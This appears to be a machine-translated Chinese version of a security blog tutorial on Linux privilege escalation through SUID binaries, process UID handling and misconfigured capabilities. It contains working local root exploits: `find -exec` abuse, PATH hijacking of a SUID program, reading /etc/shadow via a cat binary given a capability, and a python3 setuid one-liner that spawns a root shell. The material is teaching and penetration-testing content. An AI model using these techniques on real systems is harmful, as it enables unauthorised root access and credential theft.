


# 通过滥用 Linux 访问控制了解权限提升

> 原文：<https://infosecwriteups.com/understand-privilege-escalation-by-abusing-linux-access-control-6cab107e7203?source=collection_archive---------1----------------------->


([https://wallhere.com/en/wallpaper/1933281](https://wallhere.com/en/wallpaper/1933281)

在 Linux 系统上，特权提升是一种技术，通过这种技术，无特权的用户可以获得提升权限的非法访问，Linux 访问控制错误配置可以被利用来达到目的。。在这篇博文中，您将对 Linux 访问控制机制、如何利用 suid 和 sgid 二进制文件获得提升的权限、uid/suid/euid 篡改以及不受限制的 Linux 功能有一个初步的了解。

# 资源和所有权

在进入访问控制机制之前，首先要弄清楚关于文件、用户和进程的一些基本概念。Linux 操作系统由文件组成(一切都是文件)。文件有一个所有者，默认为创建它的用户。每个用户都与一个可以访问文件的用户 ID 相关联。人类用户可以使用用户帐户登录。进程是内核加载执行的程序，进程可以作为用户帐户运行。Linux 中用户、进程和文件之间的高级关系描述如下:



# 访问控制的类型

Linux 是一个多用户操作系统，它为文件定义了三种访问权限(读、写和执行)来保护它们。有两种最重要的访问控制类型 DAC(自主访问控制)和 MAC(强制访问控制):

*   自主访问控制(DAC)

自由访问控制基于用户和/或组成员的身份限制对文件的访问。因为文件所有者可以将访问权转让给其他用户，所以 DAC 是任意的。

*   强制访问控制(MAC)

在 MAC 中，访问是基于数据机密性和用户许可级别的，换句话说，用户被分配一个许可级别，文件被分配一个安全标签，当用户试图访问一个特定的文件时，Linux 将检查用户的许可级别和文件的安全标签来决定是否提供访问。只有管理员配置这些访问策略并实施访问控制，而不是文件的所有者。MAC 不是这篇博文的重点。

# DAC 中的文件权限位

文件的所有者(创建者)、文件所属组的成员以及其他所有人都可以访问文件。一个文件总是由一个用户 d(u)和一个组(g)以及其他人(o)所拥有。有三种常见的访问类型:r(读)、w(写)和 x(执行)权限。因此，有九位信息来描述文件权限。例如:



(https://danielmiessler.com/images/permissions.png)

除了 r/w/x，Linux 引入了三个额外的特殊位:setuid(又名 SUID)、setgid(又名 SGID)和 sticky，以实现额外的限制或特权。`setuid`位只是表示当运行一个可执行文件时，它会将其权限设置为所有者的权限，而不是设置为启动它的用户的权限。`setgit`为可执行文件分配拥有它的组的权限，而不是执行它的用户组的权限。如果对文件应用了粘滞位，则只有所有者或根用户可以删除该文件。

让我们看一些“ls -l”的样本结果来说明上面的概念:

**例 1:**

```
drwxrwxrwx 1 someuser somegroup 9 Apr 11 10:56 test
```

文件所有者为`someuser`，文件组为`somegroup`

`drwxrwxrwx`是权限位，第一个字符表示文件的类型:

*   -对于常规文件
*   d 代表目录文件
*   b 为块专用设备文件
*   对于字符专用设备文件
*   l 表示符号链接
*   p 代表命名管道(用 mkfifo 创建)
*   s 代表插座
*   ？对于其他(未知)文件类型

**例 2:**

```
drwsrwxrwx 1 someuser somegroup 9 Apr 11 10:56 test
```

正如您可以在文件权限的用户部分看到的一个`s`,`s`是 setuid 位。有时您可能会看到`S`，这意味着 setuid 位打开，而用户执行位关闭。

**例 3:**

```
drwxrwxrwt 1 someuser somegroup 9 Apr 11 10:56 test
```

权限表的末尾有一个`t`。类似地，当 sticky 位打开且其他位的执行位关闭时，使用`T`。

# SUID 位上的权限提升示例

带有 SUID 的可执行文件也称为 SUID 可执行文件。由于 SUID 可执行文件的性质，它总是攻击者利用特权提升的目标。您可以使用下面的命令来查找所有的 SUID 可执行文件:

```
[test@InfoSecTest01 tmp]$ find / -perm -u=s -type f 2>/dev/null
.... 
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/crontab
/usr/bin/mount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/find
/usr/bin/gpasswd
...
```

奇怪的是结果列表中的`find`命令，通常`find`命令不应该分配 suid 位。检查`find`命令:

```
[test@InfoSecTest01 tmp]$ ls -al /usr/bin/find
-rwsr-xr-x. 1 root root 199304 Oct 31  2018 /usr/bin/find
```

接下来，您可以按照下面的步骤尝试执行权限提升:

```
[test@InfoSecTest01 tmp]$ touch priv
​
[test@InfoSecTest01 tmp]$ find priv -exec "id" \;
uid=3017(test) gid=3017(test) euid=0(root) groups=3017(test) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
​
[test@InfoSecTest01 tmp]$ find priv -exec "whoami" \;
root
```

据观察，`find priv -exec "id" \;`结果中的`euid=0(root)`我们将在进程许可部分解释 euid 的含义。

# DAC 中的处理权限

现在我们将焦点从文件转移到进程，从进程的角度来看权限。

每个流程都有三个不同的 uid:

*   **Real UID (ruid)** :产生进程的用户的 UID，代表进程(不是文件)的所有权。
*   **有效 UID (euid)** :决定当前进程在访问资源时的权限级别。
*   **保存的 set-user-ID (suid)** :当一个进程通过在它的真实 uid 和保存的 set-user-ID 中的值之间来回切换它的有效 UID 来承担不同的特权时，使用它

让我们用`/usr/bin/passwd`来解释这三个 uid。检查`/usr/bin/passwd`的权限，可以看到 setuid 位被启用。

```
-rwsr-xr-x. 1 root root 27856 Apr  1  2020 /usr/bin/passwd
```

`/usr/bin/passwd`归 root 所有，正如我们上面提到的，setuid 位表示当无权限用户执行它时，它将以 root 的权限运行，这是因为 EUid 被设置为所有者(root)的 ID(就像上面利用`find`命令的利用示例中的`euid=0(root)`)。同时，RUID 被设置为调用者(非特权用户)，但通常 time /usr/bin/passwd 希望在调用者(非特权用户)的上下文中执行操作，而不是在所有者(root)的上下文中，它将其 EUID 切换到 RUID(非特权用户)。为了防止其原始 EUID(根的 ID)的丢失，在进程将其 EUID 更改为 RUID(非特权用户)之前，其实际上将原始 EUID(根的 ID)保存在已保存的用户 id (SUID)中。因此，如果该进程完成了它的非特权工作，它可以通过访问 SUID 来重新获得它的超级用户特权。

但是根用户的临时 EUID 允许程序/文件有足够的能力让攻击者执行权限提升。

您可以使用内置子例程在自己的 C 程序中获取和设置进程 uid:

> *uid_t geteuid(void) —获取 EUID*
> 
> *uid_t getuid(void) —获取 RUID*
> 
> *uid_t getresuid(void) —获取 EUID、鲁伊德和 SUID*
> 
> *int setuid(uid _ t*uid*)—所有与进程相关的用户 id 都被设置为* uid *(由超级用户执行时)*
> 
> *int seteuid(uid _ t*euid*)—将调用进程的有效用户 id 设置为 euid*
> 
> *int setre uid(uid _ t*ruid*，uid_t* euid *) —设置调用进程*的真实有效的用户标识
> 
> *…*

注意:设置 uid 是一个复杂的部分，这些子例程的行为在不同的场景下会有所不同，而且 uid 可能并不总是设置成功，所以要经常检查返回值。

# 进程 UID 的权限提升示例

假设您作为用户`test`在/tmp 下发现了一个名为`worker`的可疑 SUID 可执行文件:

```
test@debian:/tmp$ ls -l
-rwsr-xr-x 1 root root  16664 Nov  9 23:06 worker
-rw-r--r-- 1 root root     71 Nov  9 23:06 worker.c
```

worker.c 是`worker`的源代码，检查其内容:

```
test@debian:/tmp$ cat worker.c
#include <unistd.h>
void main(void){
  setuid(0);
  system("exp");
}
```

当无权限用户执行`worker`程序时，会以 EUID 0 和 SUID 0 启动，在`worker.c`程序内部调用 setuid(0)提升权限后，下一行的外部`system("exp")`将以 root 权限执行。

要利用它，只需在/tmp 目录中将`/bin/sh`复制为`exp`

```
test@debian:/tmp$ cp /bin/sh ./exp
```

然后设置`PATH` env。

```
test@debian:/tmp$ PATH=.:$PATH
```

再次执行它，您将获得根权限。

```
test@debian:/tmp$ ./worker
test@debian:/tmp$ id
uid=0(root) gid=1001(test) groups=1001(test)
```

其他漏洞，如[共享对象/库注入](https://blog.pentesteracademy.com/abusing-missing-library-for-privilege-escalation-3-minute-read-296dcf81bec2)或[使用 SetUID](https://github.com/RackunSec/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/linux.md#mounted-filesystems-with-setuid) 挂载文件系统，都依靠类似的技术来提升权限。

# DAC 的缺点

DAC 有其缺点，它只提供 3 种权限——读、写和执行。一个进程(例如`/usr/bin/passwd`)被授予 root 权限，它可能只需要这些权限中的一小部分，过于宽松的权限会带来安全隐患。所以 Linux 功能来加强 Linux 系统的安全性。

# Linux 分解根权限的能力

Linux 中的功能用于为非特权进程提供对内核资源的细粒度访问。它将根权限分解成小的权限，因此只有一部分根权限可以授予目标。列出了大约 40 种能力[https://man7.org/linux/man-pages/man7/capabilities.7.html](https://man7.org/linux/man-pages/man7/capabilities.7.html)。滥用这些能力使得恶意行为者能够轻易突破安全限制。例如，CAP_DAC_READ_SEARCH 功能允许进程绕过文件读取、目录读取和执行权限。如果一个程序(例如`/bin/cat`)碰巧具有这种能力，它可以让无权限的用户读取包含机密信息的文件，如/etc/shadow。

有三个 CLI 实用程序来管理 Linux 中的功能:

*   **capsh** —打印当前上下文的功能
*   **setcap** —设置或取消设置常规文件的功能
*   **getcap** —从文件或目录中递归获取功能

我们将在`/bin/cat`上使用这些 CLI 实用程序来展示 CAP_DAC_READ_SEARCH 功能如何帮助攻击者绕过文件读取权限。

如您所知，`/etc/shadow`是从非特权用户`test`处窃取的:

```
test@machine1:/~$ /bin/cat /etc/shadow
/bin/cat: /etc/shadow: Permission denied
```

假设 root 错误地将 CAP_DAC_READ_SEARCH 能力分配给了`/bin/cat`。为了得到错误配置的`/bin/cat`，切换到 root，并授予 CAP_DAC_READ_SEARCH 能力给`/bin/cat`。

```
root@machine1:~$ setcap cap_dac_read_search=eip /bin/cat
```

奇怪的`=eip`后缀是什么意思？这需要挖掘能力的本质，`e`、`i`、`p`是指*有效*、*可继承*和*已提交*的能力集。对功能集的解释超出了这篇博文的范围。上面的命令将 CAP_DAC_READ_SEARCH 功能添加到`/bin/cat`的这三个功能集中。

验证 CAP_DAC_READ_SEARCH 功能已成功授予`/bin/cat`:

```
root@machine1:~$ getcap /bin/cat
/bin/cat cap_dac_read_search=eip
```

现在切换回普通用户`test`并再次尝试`/etc/shadow`上的`/bin/cat`命令，现在用户`test`可以访问`/etc/shadow`:

```
test@machine1:/~$ /bin/cat /etc/shadow
root:*:19140:0:99999:7:::
daemon:*:18964:0:99999:7:::
bin:*:18964:0:99999:7:::
...
```

# Linux 功能错误配置的权限提升示例

除了上面的例子，让我们通过另一个例子来理解 Linux 功能错误配置导致的特权提升。

列出 python3，你发现它没什么特别的。

```
test@machine1:/~$ ls -al /usr/bin/python3
lrwxrwxrwx 1 root root 9 Apr  5  2021 /usr/bin/python3 -> python3.9
test@machine1:/~$ ls -al /usr/bin/python3.9
-rwxr-xr-x 1 root root 5479736 Mar  1  2021 /usr/bin/python3.9
```

要搜索具有功能的二进制文件，可以选择如下命令:

```
test@machine1:/~$ getcap -r / 2>/dev/null
/usr/bin/python3.9 cap_setuid=ep
```

幸运的是，python3.9 具有 cap_setuid 功能，cap_setuid 意味着可以设置所创建进程的 EUID，因此利用该权限，您可以使用如下方法提升到高权限:

```
test@machine1:/~$ python3  -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@machine1:/~$ id
uid=0(root) gid=1001(test) groups=1001(test)
```

现在您已经获得了 root 权限！

在网上搜索，您会发现许多非 root 用户滥用各种 Linux 功能来提升权限的例子。

# 最后的想法

如果您有任何问题或反馈，请随时发表评论。如果你认为这篇博文有帮助，请点击拍手👏按钮下面几下，以示支持！

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！